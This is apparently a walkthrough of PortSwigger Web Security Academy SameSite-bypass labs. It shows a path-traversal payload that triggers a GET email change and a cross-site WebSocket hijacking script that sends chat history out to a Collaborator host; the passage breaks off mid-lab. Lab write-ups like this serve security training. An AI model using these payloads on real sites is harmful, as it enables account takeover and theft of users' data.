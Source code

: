 The most interesting here is:
```
window.location = 'post/' + postId;
```
We have an email change endpoint which originally was a POST req but we tried and it turns out it can be changed to GET and it'll update email anyway.
```
GET /my-account/change-email?email=ff%40ff.com&submit=1
```
So we can do the following: (notice: %2e%2e%2f (which is ../) after postId, this is needed because inside of setTimeout we have 'post/' + postId)
```
document.location = "https://lab-id.web-security-academy.net/post/comment/confirmation?postId=%2e%2e%2fmy-account%2fchange-email%3femail%3danna333%40ff.com%26submit%3d1"
```
And that will update the email

### Lab: SameSite Strict bypass via sibling domain
- In Burp, go to the Proxy > HTTP history tab and find the WebSocket handshake request. This should be the most recent GET /chat request.
- Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.
- In the browser, refresh the live chat page.
- In Burp, go to the Proxy > WebSockets history tab. Notice that when you refresh the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

Confirm the CSWSH vulnerability
- In Burp, go to the Collaborator tab and click Copy to clipboard. A new Collaborator payload is saved to your clipboard.
- In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept: 
```bash
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
- Store and view the exploit yourself
- In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
- Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
- Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.
- Notice that your session cookie was not sent with the request.
- In the response, notice that the website explicitly specifies SameSite=Strict when setting session cookies. This prevents the browser from including these cookies in cross-site requests
